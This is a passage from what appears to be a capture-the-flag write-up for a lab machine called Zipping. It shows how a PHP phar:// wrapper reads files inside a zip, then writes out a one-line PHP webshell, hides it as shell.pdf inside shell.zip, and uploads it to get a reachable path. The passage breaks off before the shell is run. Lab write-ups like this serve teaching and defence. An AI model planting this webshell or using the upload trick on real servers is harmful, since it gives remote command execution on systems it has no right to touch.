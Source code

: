 It still works the same:



    php > echo file_get_contents('phar://test.pdf/test.txt');
    this is a test
    php > if (file_exists('phar://test.pdf/test.txt')) { echo "exists"; }
    exists



#### Exploit Zipping

I'll create a simple webshell, `shell.php`:



    <?php system($_REQUEST['cmd']); ?>



I'll zip it into a file called `shell.pdf`:



    oxdf@hacky$ zip shell.pdf shell.php 
      adding: shell.php (stored 0%)
    oxdf@hacky$ unzip -l shell.pdf
    Archive:  shell.pdf
      Length      Date    Time    Name
    ---------  ---------- -----   ----
           35  2024-01-11 14:26   shell.php
    ---------                     -------
           35                     1 file



I'll put that into a zip archive called `shell.zip`:



    oxdf@hacky$ zip shell.zip shell.pdf 
      adding: shell.pdf (deflated 34%)
    oxdf@hacky$ unzip -l shell.zip 
    Archive:  shell.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
          203  2024-01-11 14:26   shell.pdf
    ---------                     -------
          203                     1 file



Now when I upload that zip, Zipping will unzip `shell.pdf` and return me
the link to it:

![](/img/image-20240111142822352.png)

I know that file is at
`/var/www.md/uploads/ea409d50349a8436fe49f7ec66aa6132/shell.pdf`, so I
can visit:

